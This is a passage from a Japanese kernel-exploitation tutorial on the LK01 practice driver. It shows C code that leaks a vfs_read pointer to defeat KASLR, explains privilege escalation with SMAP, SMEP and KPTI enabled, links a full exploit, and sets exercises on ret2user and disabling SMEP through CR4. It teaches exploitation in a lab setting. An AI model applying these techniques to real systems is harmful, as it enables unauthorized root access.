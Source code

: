 `vfs_read`や`ksys_read`関数の途中を指しているようです。いずれにせよFGKASLRは無効ですので、カーネルのベースアドレスからこのポインタまでのオフセットは固定です。今回は最初の`vfs_read`を指しているポインタを利用します。
```c
  /* Leak kernel base */
  memset(buf, 'B', 0x480);
  read(fd, buf, 0x410);
  unsigned long addr_vfs_read = *(unsigned long*)&buf[0x408];
  unsigned long kbase = addr_vfs_read - (0xffffffff8113d33c-0xffffffff81000000);
  printf("[+] kbase = 0x%016lx\n", kbase);
```
これでSMAP,SMEP,KPTI,KASLRすべて有効でも動作するexploitが書けます。ROP gadgetや各種関数に、リークしたカーネルのベースアドレスを使うように修正してみてください。次のようにKASLR有効でも権限昇格できれば成功です。

<center>
  <img src="img/kaslr_bypass.png" alt="KASLR有効下での権限昇格" style="width:320px;">
</center>

Exploitの例は[ここ](exploit/kaslr.c)からダウンロードできます。

----

<div class="column" title="例題１">
  練習問題LK01のスタックオーバーフロー脆弱性のみを利用して、次の各セキュリティ機構の組み合わせでROPをせずret2userのみで権限昇格は可能でしょうか。可能な場合はexploitを書き、不可能な場合は理由を説明してください。<br>
  (1) SMAP無効 / SMEP無効 / KPTI有効<br>
  (2) SMAP有効 / SMEP無効 / KPTI無効<br>
</div>

<div class="column" title="例題２">
  <a href="../introduction/security#smep-supervisor-mode-execution-prevention">セキュリティ機構</a>の節で見たように、SMEPはCR4レジスタの21ビット目で制御されます。kROPでCR4レジスタの21ビット目を0にすることでSMEPを無効化し、ret2userで権限昇格できるでしょうか？
  可能な場合はexploitを書き、不可能な場合は理由を説明してください。
</div>

<div class="column" title="例題３">
  SMAP,SMEP,KPTIが無効でKASLRが有効なとき、Stack Overflow脆弱性のみで（すなわちreadは使わず）権限昇格してください。<br>
  ヒント：ret2usrでシェルコードを実行する瞬間のレジスタの値を確認する。
</div>
